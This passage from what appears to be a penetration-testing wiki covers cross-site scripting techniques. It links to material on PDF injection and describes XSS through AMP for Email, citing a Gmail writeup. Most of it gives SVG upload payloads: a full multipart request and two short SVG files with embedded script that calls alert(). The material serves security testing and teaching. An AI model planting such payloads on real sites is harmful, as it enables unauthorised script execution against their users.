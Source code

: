 {% content-ref url="server-side-xss-dynamic-pdf.md" %}
[server-side-xss-dynamic-pdf.md](server-side-xss-dynamic-pdf.md)
{% endcontent-ref %}

If you cannot inject HTML tags it could be worth it to try to **inject PDF data**:

{% content-ref url="pdf-injection.md" %}
[pdf-injection.md](pdf-injection.md)
{% endcontent-ref %}

### XSS in Amp4Email

AMP, aimed at accelerating web page performance on mobile devices, incorporates HTML tags supplemented by JavaScript to ensure functionality with an emphasis on speed and security. It supports a range of components for various features, accessible via [AMP components](https://amp.dev/documentation/components/?format=websites).

The [**AMP for Email**](https://amp.dev/documentation/guides-and-tutorials/learn/email-spec/amp-email-format/) format extends specific AMP components to emails, enabling recipients to interact with content directly within their emails.

Example [**writeup XSS in Amp4Email in Gmail**](https://adico.me/post/xss-in-gmail-s-amp4email).

### XSS uploading files (svg)

Upload as an image a file like the following one (from [http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/)):

```markup
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert(1);
   </script>
</svg>
-----------------------------232181429808--
```

```markup
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <script type="text/javascript">alert("XSS")</script>
</svg>
```

```markup
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```
